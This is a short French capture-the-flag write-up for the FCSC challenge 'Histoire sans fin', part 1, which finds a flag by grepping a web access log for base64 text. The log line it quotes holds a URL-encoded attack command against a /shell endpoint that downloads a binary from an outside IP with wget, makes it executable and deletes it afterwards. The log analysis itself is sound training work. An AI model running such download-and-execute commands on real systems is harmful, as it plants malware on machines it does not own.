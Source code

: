 ## WUP : Histoire sans fin

### Partie 1 

Dans cette première partie on cherche un flag qui resemble à `FCSC{...`. Les logs montrent un échange de trames qui semblent être des requêtes HTTP. Dans ce type de requêtes, l'encodage base64 peut être utilisé pour encoder les body parameters.  

Mon idée à donc été de chercher l'encodage base64 de FCSC pour le grep dans le fichier de logs.

```bash
$ echo "FCSC{" |base64
RkNTQ3sK
$ more access.log | grep RkNTQ3sK
# Rien, mais j'ai pas encodé tout le flag
# c'est possible que la racine reste la même
# j'ai donc un peu racourci
$ more access.log | grep RkNTQ3
185.150.190.103 - - [13/Feb/2020:06:12:41 +0000] "GET /shell?cd%20/tmp%20%7C%7C%20cd%20/var/run%20%7C%7C%20cd%20/mnt%20%7C%7C%20cd%20/root;%20wget%20http:/%5C/190.115.18.86/b/arm7;chmod%20777%20arm7;echo%20-n%20%22RkNTQ3tDK3o2aUZYbXRyS0pjZUF9%22%20%7C%20base64%20-d%20%26%26%20rm%20-rf%20arm7 HTTP/1.1" 200 27 "-" "python-requests/2.22.0"
# Bingo on trouve quelque chose d'étrange
```

On tombe sur une requête bizarre qui semble ouvrir un shell, se déplacer dans /tmp/var/run, monter un répertoire et télécharger un binaire... Quelque chose de suspect en somme. Mais à la fin on remarque cette ligne :`echo%20-n%20%22RkNTQ3tDK3o2aUZYbXRyS0pjZUF9%22%20%7C%20base64%20 ...` **qui contient notre pattern ET base64...**

Alors ...
```bash
echo "RkNTQ3tDK3o2aUZYbXRyS0pjZUF9" | base64 -d
FCSC{........} # On trouve le flag :)
```
